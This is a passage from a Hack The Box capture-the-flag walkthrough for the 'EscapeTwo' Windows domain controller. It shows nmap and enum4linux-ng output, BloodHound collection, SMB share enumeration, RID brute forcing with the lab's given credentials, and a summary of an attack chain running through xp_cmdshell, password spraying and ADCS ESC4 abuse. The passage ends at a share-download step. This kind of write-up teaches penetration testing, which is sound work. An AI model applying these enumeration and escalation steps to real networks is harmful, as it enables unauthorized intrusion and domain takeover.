





## Table of Contents

- [Summary](#Summary)
- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
- [Active Directory Enumeration](#Active-Directory-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [RID Brute Forcing](#RID-Brute-Forcing)
- [Foothold](#Foothold)
    - [File Share Access](#File-Share-Access)
    - [Investigating Downloaded Files](#Investigating-Downloaded-Files)
    - [Microsoft SQL Server](#Microsoft-SQL-Server)
- [Enumeration](#Enumeration)
- [Privilege Escalation to ryan](#Privilege-Escalation-to-ryan)
    - [Password Spraying](#Password-Spraying)
- [user.txt](#usertxt)
- [Pivoting](#Pivoting)
- [Privilege Escalation to ca_svc](#Privilege-Escalation-to-ca_svc)
    - [WriteOwner Abuse](#WriteOwner-Abuse)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
    - [Active Directory Certificate Services (ADCS)](#Active-Directory-Certificate-Services-(ADCS))
        - [ESC4: Vulnerable Certificate Template Access Control](#ESC4-Vulnerable-Certificate-Template-Access-Control)
- [root.txt](#roottxt)

## Summary

The box starts with a readable `file share` on port `445/TCP` accessible through the provided `credentials`. From the `file share` two `.xslx files` can be downloaded and viewed by using an `online document viewer`. One of them contains `credentials` including the username `sa` and his corresponding `password` which then allows to connect to the `Microsoft SQL Server` instance running on the box. By enabling `xp_cmdshell`, `code execution` and therefore `foothold` on the box can be achieved. Manual `enumeration` then leads to a `sql-Configuration.INI` file which contains an additional password. Through `password spraying` the `re-use` of the `password` on the user `ryan` can be identified and leads to `privilege escalation` and to access to the `user.txt`. A `dump` of the `Active Directory` configuration using `BloodHound` shows that `ryan` has `WriteOwner` permissions on a user called `ca_svc` which indicates the presence of a `Certificate Authority (CA)`. By abusing the `WriteOwner` permission it's possible to change the `password` of `ca_svc` and to `escalate privileges` even further. With the newly gained `permissions` of `ca_svc` a `template` within the `CA` vulnerable to `ESC4` which is `Vulnerable Certificate Template Access Control` can be identified. The exploitation of `ESC4` leads to `domain compromise` and to the `root.txt`.

## Introduction

As is common in real life Windows pentests, you will start this box with credentials for the following account: `rose / KxEPkKe6R8su`.

| Username | Password     |
| -------- | ------------ |
| rose     | KxEPkKe6R8su |

## Reconnaissance

### Port Scanning

As usual we started with different `port scans` using `Nmap`. A `quick scan` to get a closer look and to already with the box, a `full port scan` and a `UDP scan` while we already worked on the box.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.91.215
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 20:10 CET
Nmap scan report for 10.129.91.215
Host is up (0.018s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-11 19:10:15Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-11T19:11:35+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-11T19:11:35+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.91.215:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.91.215:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-11T19:07:14
|_Not valid after:  2055-01-11T19:07:14
|_ssl-date: 2025-01-11T19:11:35+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-11T19:11:35+00:00; 0s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-11T19:11:35+00:00; 0s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-11T19:10:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.59 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.91.215  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 20:13 CET
Nmap scan report for sequel.htb (10.129.91.215)
Host is up (0.047s latency).
Not shown: 65510 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-11 19:23:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-11T19:24:40+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-11T19:24:40+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2025-01-11T19:24:40+00:00; 0s from scanner time.
| ms-sql-info: 
|   10.129.91.215:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-11T19:07:14
|_Not valid after:  2055-01-11T19:07:14
| ms-sql-ntlm-info: 
|   10.129.91.215:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-11T19:24:40+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-11T19:24:40+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49735/tcp open  msrpc         Microsoft Windows RPC
60983/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-11T19:24:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 648.00 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.91.215
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 20:25 CET
Nmap scan report for sequel.htb (10.129.91.215)
Host is up (0.023s latency).
Not shown: 997 open|filtered udp ports (no-response)
PORT    STATE SERVICE      VERSION
53/udp  open  domain       Simple DNS Plus
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-01-11 19:25:55Z)
123/udp open  ntp          NTP v3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5073.83 seconds
```

### Domain Enumeration

As next quick check we used `enum4linux-ng` to get additional information about the box.

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.91.215
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.91.215
[*] Username ......... ''
[*] Random Username .. 'ihwscraz'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.129.91.215    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.129.91.215    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: sequel.htb

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.91.215    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.129.91.215    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ============================================================
|    Domain Information via SMB session for 10.129.91.215    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: SEQUEL                                                                                                                                                                                                                 
DNS domain: sequel.htb                                                                                                                                                                                                                      
FQDN: DC01.sequel.htb                                                                                                                                                                                                                       
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: SEQUEL                                                                                                                                                                                                                      

 ==========================================
|    RPC Session Check on 10.129.91.215    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.129.91.215    |
 ====================================================
[-] Could not get domain information via 'lsaquery': STATUS_ACCESS_DENIED

 ================================================
|    OS Information via RPC for 10.129.91.215    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 ======================================
|    Users via RPC on 10.129.91.215    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.129.91.215    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.129.91.215    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.129.91.215    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.129.91.215    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 10.44 seconds
```

And after finishing the `port scan` and the enumeration using `enum4linux-ng` we added `sequel.htb` as well as `dc01.sequel.htb` to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.91.215   sequel.htb
10.129.91.215   dc01.sequel.htb
```

## Active Directory Enumeration

Since we got `credentials` provided we dumped the `Active Directory` configuration using `bloodhound-python` and then visualized it in `Bloodhound`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ bloodhound-python -u 'rose' -p 'KxEPkKe6R8su' -d 'sequel.htb' -dc 'dc01.sequel.htb' -ns 10.129.91.215 -c All --zip
INFO: Found AD domain: sequel.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.sequel.htb
INFO: Found 10 users
INFO: Found 59 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.sequel.htb
INFO: Done in 00M 07S
INFO: Compressing output into 20250111202430_bloodhound.zip
```

We found three accounts which maybe would have been vulnerable to `Kerberoasting` but that didn't lead us anywhere.



### Enumeration of Port 445/TCP

With the credentials for `rose` we enumerated port `445/TCP` and found an accessible `file share` called `Accounting Department`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.91.215 -u 'rose' -p 'KxEPkKe6R8su' --shares
SMB         10.129.91.215   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.91.215   445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.91.215   445    DC01             [*] Enumerated shares
SMB         10.129.91.215   445    DC01             Share           Permissions     Remark
SMB         10.129.91.215   445    DC01             -----           -----------     ------
SMB         10.129.91.215   445    DC01             Accounting Department READ            
SMB         10.129.91.215   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.91.215   445    DC01             C$                              Default share
SMB         10.129.91.215   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.91.215   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.91.215   445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.91.215   445    DC01             Users           READ
```

### RID Brute Forcing

And since we were able to read `IPC$` we used `RID Brute Forcing` to generate a quick list of `usernames` within the `Active Directory` for potential `password spraying` later.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.91.215 -u 'rose' -p 'KxEPkKe6R8su' --rid-brute 
SMB         10.129.91.215   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.91.215   445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.129.91.215   445    DC01             498: SEQUEL\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.91.215   445    DC01             500: SEQUEL\Administrator (SidTypeUser)
SMB         10.129.91.215   445    DC01             501: SEQUEL\Guest (SidTypeUser)
SMB         10.129.91.215   445    DC01             502: SEQUEL\krbtgt (SidTypeUser)
SMB         10.129.91.215   445    DC01             512: SEQUEL\Domain Admins (SidTypeGroup)
SMB         10.129.91.215   445    DC01             513: SEQUEL\Domain Users (SidTypeGroup)
SMB         10.129.91.215   445    DC01             514: SEQUEL\Domain Guests (SidTypeGroup)
SMB         10.129.91.215   445    DC01             515: SEQUEL\Domain Computers (SidTypeGroup)
SMB         10.129.91.215   445    DC01             516: SEQUEL\Domain Controllers (SidTypeGroup)
SMB         10.129.91.215   445    DC01             517: SEQUEL\Cert Publishers (SidTypeAlias)
SMB         10.129.91.215   445    DC01             518: SEQUEL\Schema Admins (SidTypeGroup)
SMB         10.129.91.215   445    DC01             519: SEQUEL\Enterprise Admins (SidTypeGroup)
SMB         10.129.91.215   445    DC01             520: SEQUEL\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.91.215   445    DC01             521: SEQUEL\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.91.215   445    DC01             522: SEQUEL\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.91.215   445    DC01             525: SEQUEL\Protected Users (SidTypeGroup)
SMB         10.129.91.215   445    DC01             526: SEQUEL\Key Admins (SidTypeGroup)
SMB         10.129.91.215   445    DC01             527: SEQUEL\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.91.215   445    DC01             553: SEQUEL\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.91.215   445    DC01             571: SEQUEL\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.91.215   445    DC01             572: SEQUEL\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.91.215   445    DC01             1000: SEQUEL\DC01$ (SidTypeUser)
SMB         10.129.91.215   445    DC01             1101: SEQUEL\DnsAdmins (SidTypeAlias)
SMB         10.129.91.215   445    DC01             1102: SEQUEL\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.91.215   445    DC01             1103: SEQUEL\michael (SidTypeUser)
SMB         10.129.91.215   445    DC01             1114: SEQUEL\ryan (SidTypeUser)
SMB         10.129.91.215   445    DC01             1116: SEQUEL\oscar (SidTypeUser)
SMB         10.129.91.215   445    DC01             1122: SEQUEL\sql_svc (SidTypeUser)
SMB         10.129.91.215   445    DC01             1128: SEQUEL\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.129.91.215   445    DC01             1129: SEQUEL\SQLRUserGroupSQLEXPRESS (SidTypeAlias)
SMB         10.129.91.215   445    DC01             1601: SEQUEL\rose (SidTypeUser)
SMB         10.129.91.215   445    DC01             1602: SEQUEL\Management Department (SidTypeGroup)
SMB         10.129.91.215   445    DC01             1603: SEQUEL\Sales Department (SidTypeGroup)
SMB         10.129.91.215   445    DC01             1604: SEQUEL\Accounting Department (SidTypeGroup)
SMB         10.129.91.215   445    DC01             1605: SEQUEL\Reception Department (SidTypeGroup)
SMB         10.129.91.215   445    DC01             1606: SEQUEL\Human Resources Department (SidTypeGroup)
SMB         10.129.91.215   445    DC01             1607: SEQUEL\ca_svc (SidTypeUser)
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.91.215 -u 'rose' -p 'KxEPkKe6R8su' --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
Administrator
Guest
krbtgt
DC01$
michael
ryan
oscar
sql_svc
rose
ca_svc
```

## Foothold

### File Share Access

After we finished the enumeration we headed back to the previously found `file share` and downloaded the files by using the `spider_plus` module of `NetExec`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.91.215 -u 'rose' -p 'KxEPkKe6R8su' --shares -M spider_plus -o DOWNLOAD_FLAG=true                                         
